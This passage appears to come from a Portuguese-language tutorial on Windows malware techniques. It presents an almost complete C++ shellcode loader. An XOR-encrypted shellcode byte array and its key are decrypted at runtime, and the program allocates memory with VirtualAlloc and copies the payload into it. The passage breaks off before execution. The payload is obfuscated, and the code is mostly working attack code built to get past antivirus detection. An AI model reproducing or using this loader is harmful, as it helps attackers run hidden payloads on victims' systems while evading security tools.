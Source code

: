 Por último, invocamos a função antes de copiar o *shellcode* para o *buffer*.

```cpp
XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));
```

O código completo fica:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] = {0x06, 0xa8, 0x57, 0xed, 0x00, 0x73, 0x37, 0x43, 0xbf, 0x32, 0x6f, 0xbb, 0x33, 0x20, 0xbc, 0x68, 0xb8, 0x4c, 0xbb, 0x2b, 0x27, 0x72, 0xe6, 0x1a, 0x10, 0x43, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x50, 0x16, 0x11, 0x55, 0x1b, 0x46, 0x58, 0x0b, 0x72, 0x24, 0x77, 0x16, 0x43, 0x13, 0xbf, 0x21, 0x5f, 0x31, 0xa9, 0xbf, 0x65, 0x10, 0x32, 0x96, 0xbb, 0x39, 0x17, 0x42, 0xed, 0xfb, 0x2e, 0xcc, 0xf8, 0x66, 0x2b, 0x69, 0xe9, 0x7d, 0xf0, 0x42, 0xfe, 0xca, 0xd2, 0xf9, 0x1e, 0xcc, 0xf8, 0x08, 0xb0, 0x69, 0xec, 0x2a, 0xb3, 0xb2, 0x30, 0xb0, 0x52, 0xd5, 0x17, 0x33, 0x33, 0xd6, 0xdf, 0xeb, 0xf3, 0x4e, 0xbb, 0x4f, 0xb5, 0x42, 0xeb, 0xfb, 0x9e, 0x01, 0xba, 0x65, 0x5f, 0x09, 0x41, 0x35, 0x71, 0x1b, 0x7b, 0x2a, 0x56, 0x00, 0x0b, 0x7c, 0x1c, 0x55, 0x53, 0x3c, 0x60, 0xb3, 0xe5, 0x1b, 0x04, 0x71, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x47, 0x00, 0x05, 0x1c, 0x60, 0x8d, 0xb3, 0xb9, 0xb5, 0x5c, 0x42, 0x18, 0x7d, 0x02, 0x56, 0xf2, 0x5b, 0x67, 0x36, 0x3c, 0x2d, 0x58, 0x07, 0x55, 0x45, 0x1c, 0x5b, 0x1b, 0x63, 0x32, 0x64, 0x17, 0x62, 0x8d, 0xb6, 0x01, 0xa1, 0x52, 0x8d, 0xf8, 0x32, 0x65, 0xe4, 0x27, 0x65, 0xbc, 0xe4, 0x1a, 0x17, 0x71, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x5b, 0x11, 0x08, 0x55, 0x1b, 0x63, 0x64, 0x29, 0x60, 0x18, 0x66, 0x8c, 0xe2, 0x72, 0xe6, 0x20, 0x31, 0x62, 0xc1, 0x32, 0x65, 0xe8, 0xd9, 0x49, 0x62, 0x31, 0x65, 0xbc, 0xe4, 0x22, 0x3c, 0x58, 0x16, 0x57, 0x43, 0x26, 0x55, 0xcf, 0x5c, 0x57, 0x34, 0x0d, 0x5c, 0x11, 0x0c, 0x5e, 0x1d, 0x60, 0x61, 0x97, 0xe6, 0xf6, 0xf1, 0xda, 0x7f, 0xc2, 0xb5, 0x98, 0x62, 0x31, 0x72, 0x35, 0x65, 0x0e, 0x5b, 0x6c, 0xcb, 0x42, 0xe5, 0xf1, 0x36, 0x14, 0x31, 0xb9, 0x91, 0x5e, 0x27, 0x3a, 0x64, 0xb3, 0xe0, 0x1b, 0x44, 0x02, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x5f, 0x10, 0x52, 0x30, 0x5c, 0x06, 0x06, 0x60, 0x01, 0x5c, 0x74, 0x1a, 0x56, 0x2d, 0x64, 0x20, 0xc8, 0x96, 0xbd, 0xac, 0x0b, 0x53, 0x1e, 0x50, 0x79, 0x0e, 0xb0, 0x20, 0x14, 0x70, 0x79, 0xca, 0xd7, 0x25, 0x34, 0x67, 0x42, 0xcb, 0x5d, 0x7a, 0x6a, 0x1b, 0xd2, 0x8e, 0x51, 0x84, 0x70, 0x56, 0x5f, 0x31, 0x72, 0xf2, 0x73, 0x4c, 0x23, 0x08, 0xbd, 0x3f, 0x13, 0x53, 0x60, 0x23, 0x34, 0x67, 0x24, 0x73, 0x60, 0x27, 0x64, 0x1b, 0x63, 0x24, 0xc8, 0x93, 0x5c, 0x17, 0x10, 0x43, 0x3d, 0x52, 0xb4, 0x04, 0x17, 0x4f, 0x7e, 0x1b, 0x67, 0x31, 0x5b, 0x11, 0x0b, 0x75, 0x0b, 0x5d, 0x43, 0x3c, 0x65, 0xb3, 0xe5, 0x42, 0xfe, 0x12, 0xcb, 0xa2};

unsigned int shellcode_size = sizeof(shellcode);

char xor_key[] = "7h3L0s7C4rc0s4";

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int a;
    a = 0;

    for (int i = 0; i < data_len; i++) {
        if (a == key_len - 1) a = 0;

        data[i] = data[i] ^ key[a];
        a++;
    }
}

int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    void *exec_mem = VirtualAlloc(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));

    RtlMoveMemory(exec_mem, shellcode, shellcode_size);
```